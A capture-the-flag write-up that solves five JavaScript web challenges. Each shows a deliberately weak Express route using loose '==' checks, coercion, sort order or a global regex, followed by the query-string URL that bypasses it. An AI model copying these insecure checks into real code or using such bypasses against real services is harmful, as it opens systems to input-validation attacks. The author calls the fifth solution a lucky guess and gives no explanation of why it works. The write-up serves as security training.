 # QuirkyScript challenge

This challenge consists of 5 stages. Players must find vulnerabilities present in how Javascript handles data.

##### Web Challenge 1 (http://ctf.pwn.sg:8081/): 
This is the beautified js for web challenge 1.
```
var flag = require("./flag.js");
var express = require('express')
var app = express()
app.get('/flag', function(req, res) {
    if (req.query.first) {
        if (req.query.first.length == 8 && req.query.first == ",,,,,,,") {
            res.send(flag.flag);
            return;
        }
    }
    res.send("Try to solve this.");
});
app.listen(31337)
```
The key here was to know how == and type coersion works.

![xctf_2018_quirkyscript_1.png](xctf_2018_quirkyscript_1.png)

Then we have to give our input as an array. 

> In express (node.js), both `?cars=Saab&cars=Audi` and `?cars[]=Saab&cars[]=Audi` get turned into arrays. However, `?cars=Saab` ends up as a string, but `?cars[]=Saab` is an array with a single element.
>  
> --[source](https://stackoverflow.com/questions/6243051/how-to-pass-an-array-within-a-query-string)

This is the winning url: `http://ctf.pwn.sg:8081/flag/?first=&first=&first=&first=&first=&first=&first=&first=`  

  
##### Web Challenge 2 (http://ctf.pwn.sg:8082/): 
This is the beautified js for web challenge 2. 
```
var flag = require("./flag.js");
var express = require('express')
var app = express()

app.get('/flag', function (req, res) {
    if (req.query.second) {
        if (req.query.second != "1" && req.query.second.length == 10 && req.query.second == true) {
            res.send(flag.flag);
            return;
        }
    }
    res.send("Try to solve this.");
});

app.listen(31337)
```
0000000001 satisfies length=10 and ==true and !="1".

This is the winning url: `http://ctf.pwn.sg:8082/flag/?second=0000000001`  

##### Web Challenge 3 (http://ctf.pwn.sg:8083/):
This is the beautified js for web challenge 3.
```
var flag = require("./flag.js");
var express = require('express')
var app = express()
app.get('/flag', function(req, res) {
    if (req.query.third) {
        if (Array.isArray(req.query.third)) {
            third = req.query.third;
            third_sorted = req.query.third.sort();
            if (Number.parseInt(third[0]) > Number.parseInt(third[1]) && third_sorted[0] == third[0] && third_sorted[1] == third[1]) {
                res.send(flag.flag);
                return;
            }
        }
    }
    res.send("Try to solve this.");
});
app.listen(31337)
```
0x10=16 which is bigger than 8, but sorted as smaller than 8.

This is the winning url: `http://ctf.pwn.sg:8083/flag/?third[0]=0x10&third[1]=8`  


##### Web Challenge 4 (http://ctf.pwn.sg:8084/): 
This is the beautified js for web challenge 4.
```
var flag = require("./flag.js");
var express = require('express')
var app = express()
app.get('/flag', function(req, res) {
    if (req.query.fourth) {
        if (req.query.fourth == 1 && req.query.fourth.indexOf("1") == -1) {
            res.send(flag.flag);
            return;
        }
    }
    res.send("Try to solve this.");
});
app.listen(31337)
``` 
Our input has to be equal to integer 1, but should not contain the character/element "1". `indexOf()` is a method of both strings and arrays. If we give the string "1" or even "1.0", it will be type coerced to integer 1, but it will not pass the test `req.query.fourth.indexOf("1") == -1`. What about an array? If our input is an array `[1.0]`, it will be type coerced to integer 1, and since there is no element `1` inside the array, it passes both tests.


This is the winning url: `http://ctf.pwn.sg:8084/flag/?fourth[]=1.0`  


##### Web Challenge 5 (http://ctf.pwn.sg:8085/):  
This is the beautified js for web challenge 5.
```
var flag = require("./flag.js");
var express = require('express')
var app = express()
app.get('/flag', function(req, res) {
    var re = new RegExp('^I_AM_ELEET_HAX0R$', 'g');
    if (re.test(req.query.fifth)) {
        if (req.query.fifth === req.query.six && !re.test(req.query.six)) {
            res.send(flag.flag);
        }
    }
    res.send("Try to solve this.");
});
app.listen(31337)
```
I have no idea why the hell this answer is correct (comment by Solomon). It was a lucky guess.

This is the winning url: `http://ctf.pwn.sg:8085/flag/?fifth=I_AM_ELEET_HAX0R&six=I_AM_ELEET_HAX0R` 
